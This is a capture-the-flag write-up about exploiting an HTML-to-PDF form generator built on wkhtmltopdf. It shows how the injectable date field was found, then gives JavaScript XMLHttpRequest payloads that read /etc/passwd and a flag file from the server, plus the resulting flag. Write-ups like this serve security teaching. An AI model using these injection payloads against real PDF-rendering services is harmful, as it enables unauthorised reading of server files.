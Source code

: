 # wkhtmltopdf File Inclusion Vulnerability Write-up

## Challenge Overview

![](<img/0.png>)

The challenge provided a form generator website that generates input fields for:
- Name
- Division
- Approved by
- Reason
- Leave date

![](<img/1.png>)

The form data is sent to `generate.php` and converted into a PDF file.

## Initial Analysis

### PDF Metadata Investigation

![](<img/2.png>)

To understand how the PDF was generated, I examined the metadata of the generated file. The PDF was created using **wkhtmltopdf version 12.5**.

Research revealed that this version has known CVEs, with exploitation techniques documented in the article: [P4 CTF: Cvg3n3rat0r | by Cybertrinchera | CodeX](https://medium.com/codex/p4-ctf-cvg3n3rat0r-b687558978f3).

## Vulnerability Discovery

### HTML Injection Testing

![](<img/3.png>)

Since I wasn't sure which field was vulnerable in the request body, I tested all fields by injecting HTML tags `<b>test</b>` to identify which field could process HTML code.

### Base64 Response Handling

![](<img/4.png>)

The website returned responses in base64 format. I used the following script to decode and convert the response to PDF:

```python
import base64

pdf_content = base64.b64decode("wkhtmltopdf_base64_response")
with open('output.pdf', 'wb') as f:
    f.write(pdf_content)
print("PDF saved as output.pdf")
```

### Identifying Vulnerable Field

![](<img/5.png>)

After converting the response to PDF, I discovered that the **date field** was vulnerable to HTML code injection.

## Exploitation

### File Inclusion Attack

I proceeded with the exploit by injecting JavaScript code to perform file inclusion on `/etc/passwd`:

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

### Initial File Discovery

![](<img/6.png>)

After converting the response to PDF, the file successfully displayed the contents of `/etc/passwd`. The output revealed a user named `ctf`, which appeared to be a clue leading to the flag location.

### Flag Extraction

I replaced `/etc/passwd` with `/home/ctf/flag` in the payload to retrieve the flag:

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///home/ctf/flag");
x.send();
</script>
```

![](<img/7.png>)

## Flag

```
HiB25{Pamit_Dulu_Mau_Nonton_Dem0n_Slayer_Arc_Infinity_Castle}
```

## Summary

This challenge demonstrated:

1. **Metadata Analysis** - Identifying the PDF generation tool and version
2. **CVE Research** - Finding known vulnerabilities in wkhtmltopdf 12.5
3. **Input Validation Testing** - Systematically testing form fields for HTML injection
4. **File Inclusion Exploitation** - Using JavaScript to read local files through wkhtmltopdf
5. **Response Handling** - Decoding base64 responses and analyzing PDF output

The vulnerability stemmed from wkhtmltopdf's ability to execute JavaScript and access local files when processing HTML content, combined with insufficient input sanitization on the date field. This allowed for arbitrary file read access on the server.